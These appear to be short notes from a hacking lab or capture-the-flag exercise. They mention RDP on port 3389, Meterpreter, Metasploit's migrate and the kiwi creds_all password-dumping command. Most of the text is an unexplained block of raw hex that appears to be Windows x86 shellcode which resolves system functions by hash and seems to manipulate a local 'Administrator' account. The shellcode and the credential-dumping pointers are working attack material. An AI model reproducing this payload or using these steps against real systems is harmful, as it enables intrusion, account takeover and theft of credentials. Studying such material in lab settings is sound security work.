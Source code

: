 ## Task 


## Task 2 - 3

Port 3389 is the remote desktop server

## Task 4

### 1

meterpreter


Learn how metasploit migrate works

How did kiwi's creds_all display passwords?

6681ec800089e6e8b7000000890689c3
53687ed8e273e8bd00000089460c5368
8e4e0eece8af00000089460831db5368
70693332686e65746154ffd089460489
c353685edf7ccde88c00000089461053
68d73d0cc3e87e00000089461431c031
db435068720073006874006f00687200
61006873007400686e006900686d0069
00684100640089661c50685800000089
e1894e186800005c0050535050535051
5189e15054515350ff56108b4e184949
5189e16a01516a03ff761c6a00ff5614
ff560c566a3059648b018b400c8b701c
ad8b40085ec20400535556578b6c2418
8b453c8b54057801ea8b4a188b5a2001
ebe332498b348b01ee31fffc31c0ac38
e07407c1cf0d01c7ebf23b7c241475e1
8b5a2401eb668b0c4b8b5a1c01eb8b04
8b01e8eb0231c089ea5f5e5d5bc20800